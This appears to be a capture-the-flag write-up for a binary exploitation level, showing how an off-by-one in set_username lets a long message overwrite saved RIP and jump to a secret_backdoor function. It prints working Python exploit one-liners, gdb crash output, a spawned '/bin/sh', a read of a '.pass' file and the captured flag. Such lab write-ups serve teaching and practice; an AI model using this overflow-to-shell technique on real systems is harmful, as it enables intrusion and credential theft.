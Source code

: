 We have a program that asks for a username and a message.

We can see that there is a function called `secret_backdoor`
A quick disas:

```
gdb ./level07
disas secret_backdoor
```

shows there is a call to system

```
0x00000000000008b9 <+45>:	callq  0x740 <system@plt>
```

When looking at the source code we can see we have a small window for buffer overflow in the function `set_username`
The same buffer is passed as parameters to both function set_username and set_msg. Both functions use it:
set_username writes up to 41 bytes (from p + 140 to p + 180)
set_msg reads a large fgets of 1024 and then copies with strncpy up to p + 180 bytes.

We can then override the value stored at p + 180 with the 41st byte of our username.

```bash
(python -c 'print "X" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9" + "\n"' ; cat) | ./level09
```

We obtain a segfault:
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
i f
Stack level 0, frame at 0x7fffffffe5c8:
rip = 0x555555554931 in handle_msg; saved rip 0x4138674137674136
called by frame at 0x7fffffffe5d8
Arglist at 0x6741356741346741, args:
Locals at 0x6741356741346741, Previous frame's sp is 0x7fffffffe5d0
Saved registers:
rip at 0x7fffffffe5c8

saved rip offset is 200

lets redirect to => 0x55555555488c (secret_backdoor) and then pass it the parameter we want : "/bin/sh" (through its fgets)

```bash
(python -c 'print "X" * 40 + "\xff" + "\n" + "X" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1] + "\n" + "/bin/sh" + "\n"' ; cat) | ./level09
```

cat /home/users/end/.pass

flag

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
